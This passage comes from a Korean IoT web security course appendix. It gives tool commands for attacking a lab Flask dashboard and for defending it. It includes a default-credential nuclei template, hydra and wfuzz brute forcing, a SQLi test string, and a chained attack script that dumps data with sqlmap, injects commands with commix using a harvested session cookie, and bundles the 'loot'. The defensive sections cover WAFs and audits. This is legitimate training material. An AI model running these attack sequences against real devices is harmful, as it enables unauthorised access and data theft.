   -j -o /tmp/nuclei-iot.json

# 2. nuclei custom — IoT 대시보드 패턴
cat << 'YAML' > /tmp/iot-dashboard-defaults.yaml
id: iot-dashboard-default-cred
info:
  name: IoT Dashboard Default Credentials
  severity: critical
  tags: iot,default-login

http:
  - method: POST
    path: ["{{BaseURL}}/login", "{{BaseURL}}/api/login"]
    body: "username={{user}}&password={{pwd}}"
    payloads:
      user: ["admin", "root", "user", "support", "admin"]
      pwd: ["admin", "12345", "password", "1234", "admin1234"]
    matchers:
      - type: word
        words: ["dashboard", "logged in", "welcome"]
        condition: or
      - type: status
        status: [302]
YAML

nuclei -u "http://10.20.30.80:8088" -t /tmp/iot-dashboard-defaults.yaml

# 3. kiterunner — API endpoint discovery (40만개 사전)
kr scan http://10.20.30.80:8088 -w /usr/share/kiterunner/wordlists/routes-large.kite

# 출력:
# 200 [   1234,   45,   12] http://...:8088/api/devices
# 200 [    567,   23,    4] http://...:8088/api/users  ← (인증 없는 API)
# 401 [    234,    7,    1] http://...:8088/api/admin
# 200 [    890,   34,    8] http://...:8088/api/config

# 4. arjun — HTTP parameter discovery
arjun -u http://10.20.30.80:8088/api/device --get
# Found parameters: id, type, action, debug

# 5. ffuf — directory + parameter brute
ffuf -u http://10.20.30.80:8088/FUZZ \
   -w /usr/share/wordlists/dirb/common.txt \
   -mc 200,201,302,401 -t 50

# 6. wfuzz — POST 파라미터 fuzz
wfuzz -c -z file,/usr/share/wordlists/iot-passwords.txt \
   -d "username=admin&password=FUZZ" \
   --hc 200 \
   http://10.20.30.80:8088/login
```

#### 도구 7: hydra — IoT cred brute (s10)

본문 Python brute → hydra 의 *전문 form 처리* + 다중 thread + Burp Intruder
필요 없음.

```bash
# 1. hydra http-post-form (Flask 로그인)
hydra -L /tmp/iot-users.txt -P /tmp/iot-passwords.txt \
   -t 4 -W 5 -e ns \
   10.20.30.80 -s 8088 \
   http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"

# 출력:
# [8088][http-post-form] host: 10.20.30.80   login: admin   password: admin123

# 2. http-get + Basic Auth
hydra -L users.txt -P passwords.txt -t 4 \
   10.20.30.80 -s 8088 http-get /api/admin

# 3. JSON API
hydra -L users.txt -P passwords.txt -t 4 \
   10.20.30.80 -s 8088 \
   http-post-form "/api/login:application/json:{\"u\":\"^USER^\",\"p\":\"^PASS^\"}:Failed"

# 4. 다중 form (csrf token 포함 — script 작성)
# hydra 는 csrf token 자동 처리 안 됨 → Burp Intruder 또는 wfuzz 사용
wfuzz --hh 200 \
   -z file,/tmp/iot-passwords.txt \
   -b "csrf_token=$(curl -s ... | grep token)" \
   -d "username=admin&password=FUZZ" \
   http://10.20.30.80:8088/login
```

#### 도구 8: ModSecurity + OWASP CRS — WAF 방어 (s12)

본문 5.2-5.3 *보안 강화 방안* 의 운영 도구. nginx + ModSecurity + OWASP
CRS (Core Rule Set) 으로 SQLi / XSS / CSRF / RCE 자동 차단.

```bash
# 1. docker — nginx + ModSecurity + CRS
docker run -d --name modsec-nginx \
   -p 8443:443 -p 8080:80 \
   -e PARANOIA=2 \
   -e ANOMALY_INBOUND=5 \
   -e ANOMALY_OUTBOUND=4 \
   -e BACKEND="http://10.20.30.80:8088" \
   owasp/modsecurity-crs:nginx

# 2. CRS rule 확인
docker exec modsec-nginx ls /etc/nginx/conf.d/
# REQUEST-901-INITIALIZATION.conf
# REQUEST-905-COMMON-EXCEPTIONS.conf
# REQUEST-911-METHOD-ENFORCEMENT.conf
# REQUEST-913-SCANNER-DETECTION.conf
# REQUEST-920-PROTOCOL-ENFORCEMENT.conf
# REQUEST-921-PROTOCOL-ATTACK.conf
# REQUEST-930-APPLICATION-ATTACK-LFI.conf
# REQUEST-931-APPLICATION-ATTACK-RFI.conf
# REQUEST-932-APPLICATION-ATTACK-RCE.conf
# REQUEST-933-APPLICATION-ATTACK-PHP.conf
# REQUEST-941-APPLICATION-ATTACK-XSS.conf
# REQUEST-942-APPLICATION-ATTACK-SQLI.conf
# REQUEST-944-APPLICATION-ATTACK-JAVA.conf

# 3. SQLi 차단 검증
curl "http://10.20.30.80:8080/login" \
   -d "username=admin' OR '1'='1' --&password=test"
# 응답: 403 Forbidden

# 4. ModSecurity 로그 확인
docker logs modsec-nginx | grep -i "rule"
# [crit] ... ModSecurity: Warning. Matched "Operator `Detect..."
# [client 10.20.30.201] ... ARGS:username Value `admin' OR '1'='1' --

# 5. 운영 적용 — paranoia level (1-4)
# 1: false positive 적음
# 4: 가장 엄격 (false positive 많음)

# 6. Coraza (Go 기반 — ModSecurity 호환)
docker run -d --name coraza \
   -p 8081:80 \
   -v /etc/coraza/conf.d:/etc/coraza/conf.d \
   corazawaf/coraza:latest

# 7. Naxsi (Nginx native — 단순)
sudo apt-get install -y nginx-naxsi

# 8. Open AppSec (현대 — ML 기반)
docker run -d --name openappsec \
   -p 80:80 -p 443:443 \
   ghcr.io/openappsec/agent:latest
```

### IoT 웹 공격자 흐름 (정찰 → exploit → exfil) 실 명령 시퀀스

```bash
#!/bin/bash
# attack-iotweb-flow.sh — IoT 웹 5분 시퀀스 (lab 전용)
set -e
LOG=/tmp/iotweb-$(date +%Y%m%d-%H%M%S).log
TARGET=http://10.20.30.80:8088

# 1. 정찰 (httpx + nuclei)
echo "===== [1] Recon =====" | tee -a $LOG
httpx -u $TARGET -title -tech-detect -status-code -tag-content-length \
   2>&1 | tee -a $LOG
nuclei -u $TARGET -tags exposure,iot,default-login -severity high,critical \
   -j -o /tmp/iotweb-nuclei.json 2>&1 | tail -5 | tee -a $LOG

# 2. directory + API enum
echo "===== [2] Enum =====" | tee -a $LOG
gobuster dir -u $TARGET -w /usr/share/wordlists/dirb/common.txt -t 20 \
   -o /tmp/iotweb-dirs.txt 2>&1 | tee -a $LOG
kr scan $TARGET -w /usr/share/kiterunner/wordlists/routes-small.kite \
   -o /tmp/iotweb-api.txt 2>&1 | tee -a $LOG

# 3. cred brute
echo "===== [3] Brute =====" | tee -a $LOG
hydra -L /tmp/iot-users.txt -P /tmp/iot-passwords.txt \
   -t 4 -W 5 -e ns \
   10.20.30.80 -s 8088 \
   http-post-form "/login:username=^USER^&password=^PASS^:Invalid" \
   -o /tmp/iotweb-hydra.log 2>&1 | tail -5 | tee -a $LOG

# 4. SQLi
echo "===== [4] SQLi =====" | tee -a $LOG
sqlmap -u "$TARGET/search?q=test" --batch --dbms=sqlite \
   --dump --output-dir=/tmp/sqlmap-out 2>&1 | tail -10 | tee -a $LOG

# 5. XSS
echo "===== [5] XSS =====" | tee -a $LOG
dalfox url "$TARGET/search?q=FUZZ" --skip-bav 2>&1 | tee -a $LOG

# 6. Command injection
echo "===== [6] CMDi =====" | tee -a $LOG
commix --url="$TARGET/diagnostic" --data="target=127.0.0.1" \
   --cookie="$(grep -oE 'session=[^;]+' /tmp/iotweb-hydra.log | head -1)" \
   --batch --technique=b 2>&1 | tail -10 | tee -a $LOG

# 7. exfil
echo "===== [7] Exfil =====" | tee -a $LOG
tar czf /tmp/iotweb-loot.tgz /tmp/sqlmap-out/ /tmp/iotweb-*.{txt,log,json}
ls -la /tmp/iotweb-loot.tgz | tee -a $LOG
```

### IoT 웹 방어자 흐름

```bash
#!/bin/bash
# defend-iotweb-flow.sh — IoT 웹 방어 audit
set -e
LOG=/tmp/iotweb-defend-$(date +%Y%m%d-%H%M%S).log

# 1. 정적 분석 (Python 코드 — bandit + semgrep)
echo "===== [1] Static =====" | tee -a $LOG
bandit -r /tmp/iot-flask-app/ -f txt | tee -a $LOG
semgrep --config=auto /tmp/iot-flask-app/ | tee -a $LOG

# 2. 자가 audit (DAST — ZAP)
echo "===== [2] DAST ZAP =====" | tee -a $LOG
docker run --rm -v $(pwd):/zap/wrk/:rw -t \
   owasp/zap2docker-stable zap-baseline.py \
   -t http://10.20.30.80:8088 \
   -r zap-report.html | tee -a $LOG

# 3. 보안 헤더 audit
echo "===== [3] Headers =====" | tee -a $LOG
curl -sI http://10.20.30.80:8088 | tee -a $LOG
echo "---"
testssl.sh --headers http://10.20.30.80:8088 | tee -a $LOG

# 4. WAF 적용 (ModSecurity)
echo "===== [4] WAF =====" | tee -a $LOG
docker logs modsec-nginx 2>&1 | grep -i "ModSecurity" | tail -10 | tee -a $LOG

# 5. 보고
echo "===== [5] Report =====" | tee -a $LOG
cat << REP | tee -a $LOG
IoT 웹 audit 결과:
  - bandit issues: $(grep -c "Issue" /tmp/bandit.txt 2>/dev/null)
  - ZAP findings: (HTML 보고서 참조)
  - 보안 헤더 부족: $(curl -sI http://10.20.30.80:8088 | grep -ciE "strict|x-frame|x-content")

조치:
  1. SQLi → parameterized query 강제 (sqlalchemy)
  2. XSS → Jinja2 autoescape + CSP 헤더
  3. CSRF → Flask-WTF 토큰
  4. Command Injection → subprocess + shell=False + input validation
  5. ModSecurity / Coraza WAF 배포 (PARANOIA=2)
  6. 보안 헤더 (HSTS, CSP, X-Frame-Options) 추가
REP
```

### OWASP IoT Top 10 ↔ 본문 lab 매핑 (재정리)

| OWASP | 본문 lab | 도구 |
|-------|----------|------|
| I1 weak cred | 5.1 cred brute | hydra / Burp Intruder |
| I2 insecure svc | 3.3 미인증 API | nuclei / kiterunner |
| I3 insecure interface | 3.1 SQLi | sqlmap / Burp |
| I3 insecure interface | 4.1 XSS | XSStrike / dalfox |
| I3 insecure interface | 4.3 CSRF | Burp CSRF / ZAP |
| I3 insecure interface | 3.2 CMDi | commix |
| I9 insecure default | 5.1 default cred | hydra |

### 학생 자가 점검 체크리스트

- [ ] 본문 Flask 취약 dashboard 구축 + sqlmap 으로 모든 user table dump
- [ ] Burp Suite Community proxy 설정 + Repeater 로 단일 SQLi 수동 시연
- [ ] OWASP ZAP baseline scan 으로 HTML 보고서 생성
- [ ] dalfox 또는 XSStrike 로 reflected XSS payload 자동 발견
- [ ] commix 로 Command Injection → reverse shell 1회 (lab)
- [ ] hydra http-post-form 으로 IoT 대시보드 cred brute 1회
- [ ] kiterunner 로 IoT 대시보드의 미발견 API endpoint 1+ 식별
- [ ] nuclei 자작 template 1개 작성 (default cred 검출)
- [ ] ModSecurity + OWASP CRS 적용 후 SQLi/XSS 자동 차단 1회 검증
- [ ] bandit + semgrep 으로 본문 Python 코드의 보안 issue 식별
- [ ] DVWA / Juice Shop / WebGoat 중 1개 lab 의 challenge 1+ 풀이
- [ ] 본 부록 모든 명령에 대해 "외부 IoT 적용 시 위반 법조항" 답변 가능

### 운영 환경 적용 시 주의

1. **lab 한정 의무** — sqlmap / commix / dalfox 모두 *자기 lab* 또는 *서면
   동의 받은* 자산 한정. 외부 IoT 한 번이라도 → 정통망법 §48.
2. **WAF 운영 적용** — ModSecurity / Coraza 배포 시 *paranoia 1 → 2 → 3*
   단계 적용. 처음부터 4 적용 시 false positive 폭증.
3. **정적 + 동적 audit 조합** — bandit (정적) + ZAP (DAST) + nuclei (CVE)
   3 도구 조합. 한 도구만으로는 미흡.
4. **CSP + HSTS + Cookie 보안** — `Strict-Transport-Security`, `Content-Security-Policy
   default-src 'self'`, `Set-Cookie ... HttpOnly; Secure; SameSite=Strict`.
5. **API 인증** — 모든 API endpoint 에 `@login_required` 또는 JWT/OAuth
   토큰 검증. 미인증 API 자체 금지.
6. **default cred 즉시 변경 정책** — IoT 도입 시 *수령 즉시* default cred
   교체 + 1년 1회 rotation.
7. **CI/CD 통합** — pull request 마다 ZAP baseline + Trivy + bandit + semgrep
   자동 실행. critical 발견 시 merge 차단.

> 본 부록은 *학습 시연용 OSS 시퀀스* 이다. 모든 도구는 *자기 lab* 또는
> *서면 동의 자산* 한정. sqlmap 한 번이라도 외부 IoT 송신 시 정통망법
> §48 위반 — 형사 처벌 대상.

---
